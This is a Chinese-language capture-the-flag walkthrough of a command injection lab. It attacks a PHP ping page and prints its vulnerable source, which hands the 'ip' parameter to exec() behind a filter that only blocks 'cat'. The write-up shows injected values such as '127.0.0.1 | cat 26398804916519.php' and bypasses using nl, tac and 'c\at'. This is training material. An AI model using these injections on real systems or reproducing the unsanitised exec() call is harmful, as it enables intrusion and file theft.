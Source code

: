 先**ping**  
一下  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YxCBEqEyrw1oX6Qq34T6JmDHYym3AlkYnrjSYRXq6oiatib6hBXvYUan0bjUPpltOfXBQ8zI4ic8tJMNB89CeTlGw/640?wx_fmt=png&from=appmsg "")  
  
查看**该目录**  
，使用 **127.0.0.1; ls**  
 也是可以的  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YxCBEqEyrw1oX6Qq34T6JmDHYym3AlkYANR1icpg34kyIX0TZCznRmuwGxpj3ODFicuy6gvuibPicebbYIKQKqqYdQ/640?wx_fmt=png&from=appmsg "")  
  
查看**26398804916519.php**  
```
127.0.0.1 | cat 26398804916519.php

```  
  
发现**flag**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YxCBEqEyrw1oX6Qq34T6JmDHYym3AlkYiaVowyn5mh2xNdHXbAqHzTQJ8Vo1HdUqnibQlYxSTPGJl9nE9ibE0Ux4w/640?wx_fmt=png&from=appmsg "")  
### 过滤cat  
  
查看源码：  
```
<?php

$res = FALSE;

if (isset($_GET['ip']) && $_GET['ip']) {   
    $ip = $_GET['ip'];
    $m = [];
    if (!preg_match_all("/cat/", $ip, $m)) {           //过滤了cat字符串
        $cmd = "ping -c 4 {$ip}";                //windows默认ping4次，Linux不设置次数会一直ping
        exec($cmd, $res);
    } else {
        $res = $m;
    }
}

```  
  
查看当前目录  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YxCBEqEyrw1oX6Qq34T6JmDHYym3AlkYmnONlxg4jmKQNu8lzwicn5hibV4IibRlH0dERZzAPia4JdaQIib0FCNhAEg/640?wx_fmt=png&from=appmsg "")  
  
因为cat被过滤了，此系统是linux操作系统，所以可以使用cat命令的平替，如 **nl     tac     c\at     less   more  tail**  
  等  
  
**nl**  
查看，得到**flag**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YxCBEqEyrw1oX6Qq34T6JmDHYym3AlkYICmgAojywVouN0QpLMQ6HUjNMrky5TeWBLCV3CW52DRj0CA6UYKNjA/640?wx_fmt=png&from=appmsg "")  
  
或者使用转义符 \ 绕过 也可以得到flag，会将c\at 分为**两个字符串**  
，则绕过cat过滤  
  